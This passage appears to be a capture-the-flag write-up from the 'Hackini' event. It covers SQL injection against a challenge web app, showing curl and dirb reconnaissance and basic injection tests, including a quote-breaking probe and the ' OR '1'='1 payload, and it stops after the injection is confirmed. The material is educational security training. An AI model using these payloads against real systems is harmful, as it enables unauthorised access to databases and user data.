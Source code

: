 # SQL Injection in Modern Web Apps

**Category:** Web Exploitation  
**Event:** Hackini  
**Difficulty:** Medium  
**Date:** 2024-10-22  
**Author:** Sarah Khouaja

## Description

Exploiting SQL injection vulnerabilities in web applications with advanced
filtering and WAF bypass techniques.

## Challenge Overview

The challenge presents a modern web application with:

- Input validation and filtering
- Web Application Firewall (WAF)
- Parameterized queries (but with a flaw)
- User authentication system

URL: `http://challenge.hackini.dz/search`

## Initial Reconnaissance

Let's start by exploring the application:

```bash
# Basic enumeration
curl -X GET "http://challenge.hackini.dz/search?q=test"
curl -X POST "http://challenge.hackini.dz/login" -d "username=admin&password=admin"

# Directory enumeration
dirb http://challenge.hackini.dz/
```

The application has several endpoints:

- `/search` - Search functionality
- `/login` - User authentication
- `/admin` - Admin panel (requires authentication)
- `/api/users` - API endpoint

## Vulnerability Discovery

Testing the search functionality reveals potential SQL injection:

```bash
# Basic injection tests
curl "http://challenge.hackini.dz/search?q=test'"
# Error: "Syntax error near '\'' at line 1"

curl "http://challenge.hackini.dz/search?q=test' OR '1'='1"
# Returns all results - injection confirmed!
```
